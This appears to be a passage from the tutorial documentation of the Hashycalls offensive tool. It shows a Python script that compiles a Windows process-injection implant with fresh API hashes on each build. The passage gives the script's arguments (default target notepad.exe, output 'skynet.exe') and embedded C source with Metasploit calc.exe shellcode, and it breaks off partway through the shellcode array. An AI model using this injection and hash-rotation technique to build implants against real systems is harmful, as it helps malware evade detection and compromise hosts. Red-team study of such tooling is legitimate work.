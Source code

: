 # Writing a compilation script with Hashycalls
In the [writing a basic injector](/hashycalls/docs/en/tutorials/writing-a-basic-injector.md) script, we wrote an injector which locates the notepad process on the host & injects some calculator shellcode into it via classic injection.

This tutorial demonstrates hashycalls ability for use in compilation scripts. This compilation script will compile the implant with new hashes for each function on each compilation.

## Step 0; Imports
In the first part of our code, we'll need to define the necessary library imports.

```py
import argparse
import random
import subprocess
import os
from hashycalls import HashyCalls
```

## Step 1; Writing the main function (arguments)
For demonstration purposes, this script will be entirely architected from the main function. The first code to run after main decleration should be the scripts arguments. 

The arguments i've chosen for the demo script are --outfile, --target & --algo. These arguments set the name of the compiled executable, the target process to inject and the hashing algorithm to use for API resolution.

```py
if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-o', '--outfile', help='A name for the compiled executable.', default='skynet.exe')
    parser.add_argument('-t', '--target', help='A target process name to inject to. (case sensitive)', default='notepad.exe')
    parser.add_argument('-a', '--algo', help='A hashing algorithm for dynamic api resolution', choices=['djb2', 'sdbm'], default='djb2')
    args = parser.parse_args()
```

## Step 2; Importing main source
We'll need to import our source code for the implant to the script. In this demonstration, we have defined a multi line string variable to hold the source code for main.

```py
    main_source = """# include <windows.h>
# include <tlhelp32.h>
# include "hashycalls.h"

# define TARGET_PROCESS L"%s"

int main()
{
    /* msf calc.exe */
	char shellcode[] = {
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
		0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
		0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
```